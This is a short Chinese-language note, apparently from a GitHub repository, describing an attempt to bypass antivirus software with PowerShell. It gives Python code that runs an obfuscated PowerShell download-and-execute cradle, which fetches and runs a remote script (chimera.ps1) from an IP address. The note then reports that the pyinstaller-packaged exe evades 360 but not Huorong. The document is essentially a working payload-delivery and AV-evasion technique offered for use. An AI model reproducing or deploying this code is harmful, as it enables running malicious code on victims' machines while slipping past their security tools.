 # Powershell 绕过杀软尝试

## 尝试用python 编译成exe

**时间 2024/3/14**

```
import subprocess

powerShellCommand="$c1='IEX(New-Object Net.WebClient).Downlo';$c2='123(''http://192.168.31.113/chimera.ps1'')'.Replace('123','adString');IEX ($c1+$c2)"
result = subprocess.run('powershell -NoExit {}'.format(powerShellCommand),shell=True )

```

**用pyinstaller 进行打包成exe ,可过360扫描和执行，火绒的静态扫描和执行均无法通过**

![image-20240314222306932](./resources/images/6-1.png)
